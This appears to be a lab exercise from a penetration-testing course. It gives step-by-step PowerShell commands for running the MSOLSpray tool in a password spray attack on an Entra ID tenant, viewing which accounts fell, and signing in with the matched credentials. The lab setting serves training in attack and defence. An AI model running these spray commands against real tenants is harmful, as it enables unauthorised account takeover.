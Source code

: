 ### Run MSOLSpray to simulate a password spray attack
1. Import the MSOLSpray module
```
cd $env:SystemDrive\PentestTools\Azure\Attack\MSOLSpray
Import-Module .\MSOLSpray.ps1
```

2. Copy the users.txt file from the Exercise files directory to the MSOLSpray directory and review the contents
* This contains a list of users that will be targets for the password spray attack
```
Copy-Item -Path "$HOME\Desktop\ExerciseFiles\Modules\03\users.txt" -Destination "$env:SystemDrive\PentestTools\Azure\Attack\MSOLSpray"

Get-Content .\users.txt
```

3. Run MSOLSpray
* Replace the SPRAY_PASSWORD_FROM_THE_LAB_INFO with the password from the LabXX-Info file.
```
Invoke-MSOLSpray -UserList .\users.txt -Password "SPRAY_PASSWORD_FROM_THE_LAB_INFO" -Verbose -OutFile .\sprayresults.txt
```
** Note the non-existent users and the users with MFA configured

4. View the result
* Notice that the user with the password from the attack path output was compromised
```
Get-Content .\sprayresults.txt
```

5. Open the Entra ID portal at **`https://entra.microsoft.com/`** in an InPrivate or Incognito window. Sign in with one of the matched credentials from the sprayresults.txt file.
* You should now be able to access the Entra ID portal as the user (Identity → Users → All users). Also, you should be able to review the information of other users in the tenant! (This is the default behavior).


